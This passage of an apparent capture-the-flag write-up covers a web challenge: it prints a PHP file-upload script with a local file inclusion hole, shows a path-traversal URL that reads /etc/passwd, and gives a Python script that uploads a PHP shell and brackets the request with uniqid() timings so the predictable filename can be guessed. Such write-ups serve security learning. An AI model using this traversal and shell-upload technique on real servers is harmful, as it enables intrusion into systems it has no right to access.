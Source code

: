 The main file was the PHP index:

```php
<?php
    if($_SERVER['REQUEST_METHOD'] == "POST"){
        if ($_FILES["f"]["size"] > 1000) {
            echo "file too large";
            return;
        }

        $i = uniqid();

        if (empty($_FILES["f"])){
            return;
        }

        if (move_uploaded_file($_FILES["f"]["tmp_name"], "./uploads/" . $i . "_" . hash('sha256', $_FILES["f"]["name"]) . "_" . $_FILES["f"]["name"])){
            echo "upload success";
        } else {
            echo "upload error";
        }
    } else {
        if (isset($_GET["f"])) {
            include "./uploads/" . $_GET["f"];
        }

        highlight_file("index.php");

        // this doesn't work, so I'm commenting it out 😛
        // system("/list_uploads");
    }
?>
```

Note that we had an LFI and `https://filestore.web.actf.co/?f=../../../../../etc/passwd` would
return the content of `/etc/passwd`.

Uploading a file would result in it being renamed using the `uniqid` function. As notice in a [big
red box on the documentation](https://www.php.net/manual/en/function.uniqid.php) this function just
return the time in microseconds and must not be used for cryptographic purposes.

The final filename would be in the form `time_sha256sum_filename`.

We created a script that will upload a simple PHP shell and print the value of `uniqid` before and
after the request.

```python

import requests
import os

files = {'f': open('shell.php','rb')}

url = 'https://filestore.web.actf.co/'
os.system('php -r \'printf("uniqid(): %s\r\n", uniqid());\'')

r = requests.post(url, files=files)#, data=values)
os.system('php -r \'printf("uniqid(): %s\r\n", uniqid());\'')

```
